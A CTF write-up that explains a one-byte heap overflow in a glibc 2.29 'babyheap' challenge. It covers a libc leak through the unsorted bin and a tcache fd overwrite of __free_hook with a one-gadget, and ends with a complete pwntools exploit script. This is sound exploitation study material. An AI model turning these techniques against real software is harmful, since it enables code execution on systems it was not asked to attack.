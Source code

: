 I solved this challenge after CTF. So interesting.
I realized a new heap exploit technique via this challenge.

### Challenge

```
-----Yet Another Babyheap!-----
[M]alloc 
[F]ree 
[S]how 
[E]xit 
------------------------
Command:
> 
```

Seems like common heap challenge. We can allocate up to 10 chunks.
If input size for allocation is between 0 and 248(0xf8), malloc(0xf8).
If input is between 249 and 376(0x178), malloc(0x178).

### Vulnearbility

```
read(0, &buf, 1uLL);
size = (unsigned int)size;
cur_len = 0LL;
v4 = &chunks[2 * i];
// 1byte overflow
while ( buf != '\n' && buf )
{
  *(_BYTE *)(*v4 + cur_len) = buf;
  read(0, &buf, 1uLL);
  if ( size == cur_len )
    return 0LL;
  ++cur_len;
}
```

The vulnerability is that there is one-byte overflow getting input. So we can overwrite the lower one byte of size field of adjacent chunk.

The overall idea is as follows. 
1. There are three chunks. Size field of second chunk should be 0x101(chunks that are allocated with malloc(0xf8)).
2. Then free the first chunk and allocate with the same size, and overwrite size filed of second chunk with 0x181(size same as the size of chunk via malloc(0x178)).
3. Free the second chunk and allocate again. then we can overwrite large part of third chunk.

The reason that this vulnerability is possible is that this challenge uses glibc version of 2.29, which uses tcache, and tcache doesn't check the next chunk of to-be-freed chunk.

### Libc Leak

To leak base address of libc, the scenario is as follows.
1. allocate two chunks. Size of second chunk shoud be 0x101.
2. allocate 7 chunks whose size are 0x181.
3. free chunks whose indexes are between 3 and 9.(tcache becomes saturated with 7 chunks)
4. free second chunk. this freed chunk goes in unsorted bin
5. allocate a 0x178-size chunk. then third chunk is overwritten with size field of 0x80 and fd value of libc address. (pointer of third chunk is not deleted)

### Exploit

After libc leak, the rest is easy. Again using the idea explained above, this time we overwrite fd value of adjacent chunk with address of __free_hook,
and overwrite __free_hook with address of one gadget.

```
from pwn import *

bin = ELF('./babyheap')
libc = ELF('./libc.so', checksec=False)

context.log_level = 'debug'

one_gadget_offset = [0xe237f, 0xe2383, 0xe2386, 0x106ef8]


def malloc(size, content):
    conn.sendafter('Command:\n> ', 'M')
    conn.sendafter('Size:\n> ', str(size))
    conn.sendafter('Content:\n> ', content)


def free(idx):
    conn.sendafter('> ', 'F')
    conn.sendafter('> ', str(idx))


def show(idx):
    conn.sendafter('> ', 'S')
    conn.sendafter('> ', str(idx))


conn = process('./babyheap', env={'LD_PRELOAD': './libc.so'})
# gdb.attach(conn, '')

# Libc Leak
malloc(0xf8, 'AAAAAAA\n')
malloc(0xf8, 'BBBBBBB\n')
for i in range(8):
    malloc(0x178, 'AAAAAAAABBBBBBBB' * 7 +
           'CCCCCCCC' + '\x01\x01\x00')  # 2 ~ 9

for i in range(3, 10):
    free(i)

free(0)
malloc(0xf8, 'AAAAAAAA' * 2 * 0xf + 'BBBBBBBB' + '\x81\n')
free(1)
malloc(0xf8, 'DDDDDDD\n')

show(2)
libc_addr = u64(conn.recv(6) + '\x00\x00') - 0x1e4ca0
log.info('Libc_addr: ' + hex(libc_addr))

"""
Current State
idx 0: chunk(0xf8)
idx 1: chunk(0xf8)
idx 2: chunk(0x80)
idx 3: NULL

bin: tcache bin of chunk size 0x181 saturated
"""
malloc(0x178, 'EEEEEEE\n')  # 3rd
malloc(0x178, 'FFFFFFF\n')  # 4th
malloc(0xf8, 'GGGGGGG\n')  # 5th
malloc(0xf8, 'HHHHHHH\n')  # 6th
malloc(0xf8, 'IIIIIII\n')  # 7th

free(6)
malloc(0xf8, 'JJJJJJJJ' * 2 * 0xf + 'BBBBBBBB' + '\x81\n')
free(7)

free(5)
malloc(0xf8, 'KKKKKKKK' * 2 * 0xf + 'BBBBBBBB' + '\x81\n')
free(6)

p = 'LLLLLLLL'*2*0xf + 'BBBBBBBB'*2
p += p64(libc_addr + libc.symbols['__free_hook'])[:-1]

malloc(0x178, p)
malloc(0x178, 'MMMMMMM\n')
malloc(0x178, p64(libc_addr + one_gadget_offset[1])[:-1])

free(0)

conn.interactive()
```